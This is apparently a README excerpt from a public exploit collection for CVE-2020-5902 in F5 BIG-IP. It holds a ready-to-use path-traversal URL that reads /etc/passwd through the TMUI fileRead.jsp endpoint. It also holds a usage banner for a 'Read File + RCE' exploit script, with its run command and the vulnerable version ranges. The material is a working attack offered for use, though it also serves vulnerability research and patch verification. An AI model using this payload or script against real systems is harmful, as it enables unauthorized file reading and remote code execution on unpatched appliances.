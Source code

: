 ## Readme

<details>
<summary>CVE-2020-5902 任意文件读取：</summary>

```
https://IP:8443/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```


```
+-------------------------------------------------------------+
+ DES: by zhzyker as https://github.com/zhzyker/exphub        +
+      CVE-2020-5902 F5 BIG-IP Read File + RCE                +
+-------------------------------------------------------------+
+ USE: python3 <filename> <url>                               +
+ EXP: python3 cve-2020-5902_file.py https://1.1.1.1:8443     +
+ VER: BIG-IP 15.x: 15.1.0/15.0.0                             +
+      BIG-IP 14.x: 14.1.0 ~ 14.1.2                           +
+      BIG-IP 13.x: 13.1.0 ~ 13.1.3                           +
+      BIG-IP 12.x: 12.1.0 ~ 12.1.5                           +
+      BIG-IP 11.x: 11.6.1 ~ 11.6.5                           +
+-------------------------------------------------------------+
```

![images](https://github.com/zhzyker/exphub/blob/master/f5/image/20200708_2.png)

</details>
